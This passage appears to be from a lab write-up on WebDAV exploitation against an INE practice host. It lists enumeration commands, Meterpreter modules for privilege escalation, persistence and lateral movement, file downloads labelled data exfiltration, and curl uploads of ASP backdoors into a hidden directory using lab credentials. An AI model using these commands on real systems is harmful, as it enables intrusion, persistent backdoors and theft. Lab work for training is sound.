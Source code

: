 ### WebDAV-Specific Assessment
```bash
# WebDAV Detection
nmap --script http-enum,http-webdav-scan -p 80 [target]

# Capability Testing
davtest -url http://[target]/webdav
davtest -auth [credentials] -url http://[target]/webdav

# Manual Verification
curl -X OPTIONS http://[target]/webdav/
```

### Post-WebDAV Exploitation Chain
```bash
# In Meterpreter session
# Privilege Escalation
use post/multi/recon/local_exploit_suggester
run

# Persistence
use exploit/windows/local/persistence_service
run

# Lateral Movement
use post/windows/gather/enum_shares
use auxiliary/scanner/smb/smb_login

# Data Exfiltration
download c:\\flag.txt
download c:\\important_data\\
```

### Advanced Persistence Techniques
```bash
# Multiple backdoor deployment
curl -X PUT --data-binary @backdoor1.asp --user bob:password_123321 http://demo.ine.local/webdav/system.asp
curl -X PUT --data-binary @backdoor2.asp --user bob:password_123321 http://demo.ine.local/webdav/admin.asp

# Hidden directory creation
curl -X MKCOL --user bob:password_123321 http://demo.ine.local/webdav/.hidden/
curl -X PUT --data-binary @persistent.asp --user bob:password_123321 http://demo.ine.local/webdav/.hidden/update.asp
```

---

## 📚 Additional Resources and References
